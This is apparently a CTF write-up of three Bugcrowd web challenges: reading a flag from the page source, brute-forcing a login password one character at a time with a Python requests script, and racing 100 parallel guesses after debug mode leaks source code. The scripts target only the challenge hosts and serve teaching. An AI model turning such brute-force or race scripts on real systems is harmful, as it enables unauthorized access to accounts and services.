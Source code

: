 #### Easy Web
Find the flag hidden somewhere in the website
https://bugcrowd-easy-web.chals.io/

**TL;DR**
View-source to get the flag.

**Solve**
View the website and just view-source it.

![[Pasted image 20240422223302.png]]


flag{hidden_in_plain_sight}

#### What's The Time Mr. Wolf?
 

We've found this login page in our target infrastructure. We're running out of time! Can you please help us find a way in?
https://bugcrowd-whats-the-time-mr-wolf.chals.io/

**TL;DR**
Bruteforce the password for get the flag.

**Solve**
Get a website that has login form.
![[Pasted image 20240422223433.png]]


When i try to input something there a trigger Incorrect Password.
![[Pasted image 20240422223443.png]]


But there a letter that only trigger a blank page.

![[Pasted image 20240422223454.png]]

After that i create python script to iterate it.


```
import string
import itertools
import requests

characters = string.printable

for char in characters:
    url = "https://bugcrowd-whats-the-time-mr-wolf.chals.io/auth.php?pass=t" + char
    r = requests.get(url)
    print(url, r.content)
```


Get the output like this.
![[Pasted image 20240422223523.png]]


It's mean the next letter is e, after that we iterate every single letter to get the flag.

![[Pasted image 20240422223543.png]]

FLAG{hacking_takes_time_but_is_rewarding!}


#### Feeling Lucky?
Try and guess the magic number!
https://bugcrowd-feeling-lucky.chals.io

**TL;DR**
Race condition with guess number for get the flag.

**Solve**
Got a form for guess a correct number.

![[Pasted image 20240422224105.png]]

I try to input something different, and the debug mode was on.

![[Pasted image 20240422224112.png]]

Since the debug mode is on, we can see leak the source code on the website.


```
def guess():
global timer_started, timer_start_time, race_condition_window, race_condition_end_time
number = request.json.get(&#39;number&#39;)
current_time = datetime.now()
   if not number or not (1 &lt;= number &lt;= 100):
        return jsonify({&#34;error&#34;: &#34;Invalid number. Choose between 1-100.&#34;})
    with lock:
        if not timer_started:
            timer_started = True

```

After that i create script like this for guess the number.

```
import requests
import threading
requests.packages.urllib3.disable_warnings()

url = "https://bugcrowd-feeling-lucky.chals.io/guess"

def make_request(number):
    data = {"number": number}
    r = requests.post(url, json=data, verify=False)
    print(number, r.text)
    if "flag" in r.text:
        print("Flag found:", r.text)
        return True
    return False

def main():
    threads = []
    for i in range(0, 100):
        thread = threading.Thread(target=make_request, args=(i,))
        threads.append(thread)
        thread.start()

    # Wait for all threads to finish
    for thread in threads:
        thread.join()

if __name__ == "__main__":
    main()
```
We run it until get the flag.
![[Pasted image 20240422224209.png]]


flag{pfft_lucky_guess!}

